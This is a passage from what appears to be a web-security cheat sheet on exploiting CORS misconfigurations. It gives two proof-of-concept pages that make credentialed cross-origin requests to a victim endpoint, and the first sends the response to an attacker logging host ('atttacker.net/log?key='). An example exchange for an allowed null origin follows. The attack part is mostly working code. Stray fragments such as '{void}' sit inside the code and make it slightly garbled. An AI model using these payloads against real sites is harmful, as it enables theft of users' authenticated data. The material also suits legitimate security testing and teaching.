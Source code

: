 This PoC requires that the respective JS script is hosted at `evil.com`
['null']
$0
```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://victim.example.com/endpoint',true); 
req.withCredentials = true;
req.send();
{void}
function reqListener() 
{
    location='//atttacker.net/log?key='+this.responseText; 
};
```
or 
```html
<html>
     <body>
         <h2>CORS PoC</h2>
         <div id="demo">
             <button type="button" onclick="cors()">Exploit</button>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
              xhr.open("GET",
                       "https://victim.example.com/endpoint", true);
             xhr.withCredentials = true;
             xhr.send();
             }
         </script>
     </body>
 </html>
```
### Null Origin | Vulnerable Implementation

It's possible that the server does not reflect the complete `Origin` header but
that the `null` origin is allowed. This would look like this in the server's
response:

```
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: null
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```
